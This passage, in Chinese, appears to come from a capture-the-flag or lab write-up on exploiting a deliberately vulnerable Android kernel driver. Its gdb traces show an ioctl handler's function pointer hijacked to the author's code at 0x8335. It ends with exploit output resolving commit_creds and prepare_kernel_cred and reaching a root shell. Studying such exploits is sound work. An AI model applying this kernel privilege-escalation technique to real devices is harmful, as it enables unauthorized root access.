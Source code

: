 来到 device_ioctl，此时对应着 exp 应该是调用了 ioctl 函数所以触发到这里，查看 runhandler 地址已被覆盖为 0x00008335，同时查看传入的 cmd 为 0x1337 正好对应着 RUN_COMMAND_HANDLER 的值，所以接下来会触发 handler.runhandler()

```
Breakpoint 6, device_ioctl (filp=0xd1811680, cmd=4919, arg=0)
    at drivers/vulnerabilities/kernel_build/../challenges/command_handler/module/CommandHandler.c:41
41      {
(gdb) x/10xw 0xc04ac2fc
0xc04ac2fc :   0x00008335      0x0000003a                          0xc041ddc1       0xc04ac324
0xc04ac30c :    0xc04ac2dc    0xc04ac3bc                    0x00000000       0xdeaa61c0
0xc04ac31c :    0x00000000    0x0000029a
(gdb) p/x 4919
$1 = 0x1337 
```

步进到 handler.runHandler() 后查看下其汇编函数，发现 pc 即将跳转到寄存器 r3 指向的地址，查看下 r3 的值，发现就是我们劫持填入的地址，这里直接看 0x8335 的内容识别不了，但可以根据在 exp 中打印出我们所写的提权函数 run_handler 的地址，发现也是 0x8335，因此可以得知跳转到了我们的函数。（当然也可以尝试下反汇编，这里我就不试了)

```
(gdb)
0xc025bea8      44             handler.runHandler();
(gdb) disass
Dump of assembler code for function device_ioctl:
   0xc025be90 <+0>:     push    {r3, lr}
   0xc025be94 <+4>:     movw    r3, #4919     ; 0x1337
   0xc025be98 <+8>:     cmp     r1, r3
   0xc025be9c <+12>:    bne     0xc025beb4 0xc025bea0 <+16>:    ldr     r3, [pc, #28] ; 0xc025bec4
   0xc025bea4 <+20>:    ldr     r3, [r3]
=> 0xc025bea8 <+24>:    blx     r3
   0xc025beac <+28>:    mov     r0, #0
   0xc025beb0 <+32>:    pop     {r3, pc}
   0xc025beb4 <+36>:    ldr     r0, [pc, #12] ; 0xc025bec8
   0xc025beb8 <+40>:    bl      0xc0362f60 0xc025bebc <+44>:    mvn     r0, #0
   0xc025bec0 <+48>:    pop     {r3, pc}
   0xc025bec4 <+52>:    strdgt  r12, [r10], #-44                            ; 0xffffffd4
   0xc025bec8 <+56>:    subgt   sp, r1, r3, lsl #27
End of assembler dump.
(gdb) p/x $r3
$3 = 0x8335
(gdb) disass 0x8335
No function contains specified address.
(gdb) x/10xw 0x8335
0x8335: 0x06af02b5      0x78490748      0x00447944                          0x04680968
0x8345: 0x09200068      0xa0478868      0xd0200047                          0x58bf00bd
0x8355: 0x5a00046b      0xbf00046b 
```

最终利用成功如下

```
[arm64-v8a] Install        : solution => libs/arm64-v8a/solution
[x86_64] Install        : solution => libs/x86_64/solution
[armeabi-v7a] Install        : solution => libs/armeabi-v7a/solution
[x86] Install        : solution => libs/x86/solution
1182 KB/s (292168 bytes in 0.241s)
[+] resolved symbol commit_creds to 0xc0039834
[+] resolved symbol prepare_kernel_cred to 0xc0039d34
[+] RunHandler at 0x8335
uid=0, euid=0
root@generic:/ #

```
